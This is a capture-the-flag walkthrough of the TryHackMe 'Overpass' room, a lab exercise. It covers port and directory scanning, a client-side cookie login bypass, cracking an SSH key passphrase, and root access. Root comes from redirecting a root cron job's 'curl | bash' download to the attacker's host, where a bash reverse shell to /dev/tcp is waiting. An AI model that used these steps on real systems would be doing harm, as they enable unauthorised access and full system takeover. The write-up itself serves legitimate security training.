


# [Overpass - What happens when some broke CompSci students make a password manager?](https://tryhackme.com/r/room/overpass)

## Information Gathering

### Nmap
As per usual, we start by scanning for open ports with nmap.
```
nmap -sC -sV -Pn <IP>
```
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-17 11:58 CEST
Nmap scan report for <IP>
Host is up (0.083s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The service running on port 80 (http) will be what we are going to look at first.

### Inspecting the website
The landing page looks really plain and basic. We can discover two other links directly:
- `<IP>/aboutus` -> tells us more about the creators
- `<IP>/downloads` -> allows us to download precompiled binaries, the sourcecode and the buildscript of/for the password manager

### Gobuster
To see if there is more to discover, I ran a gobuster directory enumeration scan, since just an offline password manager is most likely not going to be the attack vector we are looking for.
```
user@parrot ~ $ gobuster dir -u <IP> -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <IP>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
/http%3A%2F%2Fwww     (Status: 301) [Size: 0] [--> /http:/www]
/http%3A%2F%2Fyoutube (Status: 301) [Size: 0] [--> /http:/youtube]
/http%3A%2F%2Fblogs   (Status: 301) [Size: 0] [--> /http:/blogs]
/http%3A%2F%2Fblog    (Status: 301) [Size: 0] [--> /http:/blog]
/**http%3A%2F%2Fwww   (Status: 301) [Size: 0] [--> /%2A%2Ahttp:/www]
/http%3A%2F%2Fcommunity (Status: 301) [Size: 0] [--> /http:/community]
/http%3A%2F%2Fradar   (Status: 301) [Size: 0] [--> /http:/radar]
/http%3A%2F%2Fjeremiahgrossman (Status: 301) [Size: 0] [--> /http:/jeremiahgrossman]
/http%3A%2F%2Fweblog  (Status: 301) [Size: 0] [--> /http:/weblog]
/http%3A%2F%2Fswik    (Status: 301) [Size: 0] [--> /http:/swik]
```

## Bypassing the credential login
The gobuster scan shows that there is an admin page, `<IP>/admin`. It contains a simple login form. Before trying to exploit it, looking into the source code is always a good idea. The source code contains two important information. First, within the html <head>, the authors include a javascript file, **login.js**(`<script src="/login.js"></script>`). Second, the html <body> calls a function named "onLoad()" whenever the body gets loaded (`<body onload="onLoad()">`). We might be able to work with this. By looking at `<IP>/login.js`, we find the function definition for `onLoad()` and also a vulnerability, which allows us to log in without knowing any credentials.
```
function onLoad() {
    document.querySelector("#loginForm").addEventListener("submit", function (event) {
        //on pressing enter
        event.preventDefault()
        login()
    });
}
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
As you can see, the `onLoad()` function registers an event-listener for the login form. When someone tries to log in, the related function gets executed, calling `login()`, which is vulnerable. Why? Because of the following lines:
```
 if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```
Essentially, it seems if we would successfully log in with correct credentials, a cookie gets set, but we do not need to pass the login-check to achieve this. We can just add a cookie named "SessionToken" manually.



After refreshing the page, it looks like we passed the check!



## SSH Access
On the current page, we can clearly see a private SSH-key. The text above indicates it is related to a person named **James** and it seems to be encrypted.
To verify, copy the SSH-key onto the attacker machine and try to login on the target via SSH (port(22) is open, we already discovered that earlier). Keep in mind to change the files permissions, otherwise we won't be able to use it.
```
user@parrot ~/writeup/overpass $ chmod 600 id_rsa 
user@parrot ~/writeup/overpass $ ssh james@<IP> -i id_rsa
Enter passphrase for key 'id_rsa': 
```

We have to crack the passphrase. One way of doing this is by using [john](https://www.kali.org/tools/john/). First, we have to transform the file to the correct format. This is quickly done by `ssh2john id_rsa > id_rsa.hash`. The **id_rsa.hash** file will be used to crack the passphrase.
```
user@parrot ~/writeup/overpass $ sudo john id_rsa.hash --wordlist=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)     
1g 0:00:00:00 DONE (2024-04-17 13:22) 5.882g/s 620894p/s 620894c/s 620894C/s jarek..jade123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
The passphrase seems to be **james13**.

In theory, we should be able to log in now. Provide **james13** as the passphrase.
```
user@parrot ~/writeup/overpass $ ssh james@<IP> -i id_rsa 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Apr 17 11:24:41 UTC 2024

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 16%                IP address for eth0: <IP>
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ 
```

## User flag
The user flag is found by `cat user.txt` within james's home-directory.
Output: thm{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}

## Root flag
Before looking for an opportunity to do privilege escalation, lets look at the other files within */home/james*.
```
james@overpass-prod:~$ ls -lisa
total 48
661386 4 drwxr-xr-x 6 james james 4096 Jun 27  2020 .
655361 4 drwxr-xr-x 4 root  root  4096 Jun 27  2020 ..
666788 0 lrwxrwxrwx 1 james james    9 Jun 27  2020 .bash_history -> /dev/null
661387 4 -rw-r--r-- 1 james james  220 Jun 27  2020 .bash_logout
661389 4 -rw-r--r-- 1 james james 3771 Jun 27  2020 .bashrc
794412 4 drwx------ 2 james james 4096 Jun 27  2020 .cache
794410 4 drwx------ 3 james james 4096 Jun 27  2020 .gnupg
661245 4 drwxrwxr-x 3 james james 4096 Jun 27  2020 .local
661360 4 -rw-r--r-- 1 james james   49 Jun 27  2020 .overpass
661388 4 -rw-r--r-- 1 james james  807 Jun 27  2020 .profile
666794 4 drwx------ 2 james james 4096 Jun 27  2020 .ssh
666792 4 -rw-rw-r-- 1 james james  438 Jun 27  2020 todo.txt
661384 4 -rw-rw-r-- 1 james james   38 Jun 27  2020 user.txt
james@overpass-prod:~$ cat .overpass 
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.james@overpass-prod:~$ 
```
The output for .overpass already looks like an encrypted password. The content of todo.txt confirms that.
At this point, we have to use the password manager. After looking at the source code, it seems like we only have to create an .overpass file in our home-directory and after putting the password into it, we can decrypt it using the password manager.
```
user@parrot ~/writeup/overpass $ echo ",LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN." > ~/.overpass

user@parrot ~/writeup/overpass $ ./overpassLinux 
Welcome to Overpass
Options:
1       Retrieve Password For Service
2       Set or Update Password For Service
3       Delete Password For Service
4       Retrieve All Passwords
5       Exit
Choose an option:       4
m        saydrawnlyingpicture
user@parrot ~/writeup/overpass $ 
```
**saydrawnlyingpicture** is the password for the user james. To confirm this, one could try to re-establish the SSH connection, but this time with the actual password instead of the private SSH-key. Or in our case, trying `sudo -l` is enough to validate.
```
james@overpass-prod:~$ sudo -l
[sudo] password for james: 
Sorry, user james may not run sudo on overpass-prod.
james@overpass-prod:~$ 
```
In case we would input the wrong password, it would prompt us *Sorry, try again!*, which is not happening. This means, we cannot use `sudo -l`, but we made sure that the password we found out is correct.

### Privilege escalation
Lets start by getting [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) on the target. It helps a lot to determine possible attack vectors. Just download the linpeas.sh on the attacker machine, start a http-server with `python3 -m http.server 8080` and curl it on the target with `curl <OUR-IP>:8080/linpeas.sh -o linpeas.sh`. After running and going through the output, this catched my attention:
`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash `. The target does run a cronjob every minute as *root*. It curls a file (buildscript.sh) from a specific IP and executes it. "overpass.thm" is basically just a hostname which is mapped to a specific IP-address. If we are able to change the corresponding IP-address to one we control, we could upload whatever we want and it would get executed, as long as we keep the path correct (<OUR-IP>/downloads/src/buildscript.sh). The necessary information about these hostnames are within */etc/hosts* and luckily, the user james has write-access to it!

1. edit the associated IP for overpass.thm - `vim /etc/hosts`
```
127.0.0.1 localhost
127.0.1.1 overpass-prod
<OUR-IP> overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

2. create a malicious *buildscript.sh* containing code to start a reverse shell -> remember the path needs to be the same as in the cronjob
```
user@parrot /tmp $ mkdir -p downloads/src   
user@parrot /tmp $ cd downloads/src 
user@parrot /tmp/downloads/src $ echo "/bin/bash -i >& /dev/tcp/<OUR-IP>/9001 0>&1" > buildscript.sh
user@parrot /tmp/downloads/src $ 
```

3. start up a python3 HTTP-server
```
user@parrot /tmp $ sudo python3 -m http.server 80
```

4. prepare a netcat listener to catch the shell
```
user@parrot ~ $ nc -lvnp 9001
```

5. profit
```
root@overpass-prod:~# ls /root          
ls /root
buildStatus
builds
go
root.txt
src
root@overpass-prod:~# cat root.txt
cat root.txt
```
Output: thm{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}

